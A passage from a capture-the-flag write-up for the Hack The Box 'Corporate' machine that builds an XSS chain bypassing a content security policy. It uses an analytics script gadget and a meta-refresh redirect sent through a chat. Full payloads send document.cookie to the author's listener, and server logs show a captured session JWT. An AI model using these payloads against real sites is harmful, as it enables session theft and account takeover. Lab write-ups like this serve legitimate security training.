 This didn't work due to the quotes in the `window.location="http://10.10.xxx.xxx"` being encoded before being evaluated. Since I couldn't stop the quotes from being encoded, I used backticks instead, which worked.
```html
http://corporate.htb/<script src="http://corporate.htb/vendor/analytics.min.js"></script><script src="http://corporate.htb/assets/js/analytics.min.js?v=window.location=`http://10.10.xxx.xxx/test`"></script>
```

My server successfully received the requests.
```
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.xxx.xxx - - [09/Oct/2025 07:22:24] code 404, message File not found
10.10.xxx.xxx - - [09/Oct/2025 07:22:24] "GET /test HTTP/1.1" 404 -
10.10.xxx.xxx - - [09/Oct/2025 07:22:24] code 404, message File not found
10.10.xxx.xxx - - [09/Oct/2025 07:22:24] "GET /favicon.ico HTTP/1.1" 404 -
```

Then I added the cookie stealing portion. I needed to encode `+` to `%2b`, otherwise it would fail.
```html
http://corporate.htb/<script src="http://corporate.htb/vendor/analytics.min.js"></script><script src="http://corporate.htb/assets/js/analytics.min.js?v=window.location=`http://10.10.xxx.xxx/test?c=`%2bdocument.cookie"></script>
```

To test this part, I added a fake cookie for `corporate.htb` in the browser.
![](Pasted%20image%2020251009072802.png)

When I delivered the payload my server successfully received the cookie.
```
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
<SNIP>
10.10.xxx.xxx - - [09/Oct/2025 07:26:34] "GET /test?c=testcookie=testvalue HTTP/1.1" 404 -
```
#### Stealing User Cookie 
With the fully weaponized XSS payload ready, I now needed to trick the agent to visit the URL where the payload was hosted. 

Since the CSP was in place, I couldn't use `<script>` . A nice technique is to use `<meta>` for 
redirection, which is not affected by CSP.
```html
<meta name="language" content="0;<URL>"HTTP-EQUIV="refresh"/>
```

I embedded the payload in a `meta` tag. Then I needed to encode the full URL. But I had to avoid encoding the backticks or double-encode `+`. 
```html
<meta name="language" content="0;http://corporate.htb/%3Cscript%20src=%22http://corporate.htb/vendor/analytics.min.js%22%3E%3C/script%3E%3Cscript%20src=%22http://corporate.htb/assets/js/analytics.min.js?v=window.location=`http://10.10.xxx.xxx/test?c=`%2bdocument.cookie%22%3E%3C/script%3E"HTTP-EQUIV="refresh"/>
```

I sent the payload to the chat, and immediately got a callback to my server with the user's cookie.
```
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.229.168 - - [09/Oct/2025 07:48:39] code 404, message File not found
10.129.229.168 - - [09/Oct/2025 07:48:39] "GET /test?c=CorporateSSO=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTA3NywibmFtZSI6IkNlY2VsaWEiLCJzdXJuYW1lIjoiV2VzdCIsImVtYWlsIjoiQ2VjZWxpYS5XZXN0QGNvcnBvcmF0ZS5odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQiOjE3NTk5Njc0MTEsImV4cCI6MTc2MDA1MzgxMX0.KKmXmFpKL9sWQxNvJuLlhU-oEoze8Ron2glYzl8go-M HTTP/1.1" 404 -
```
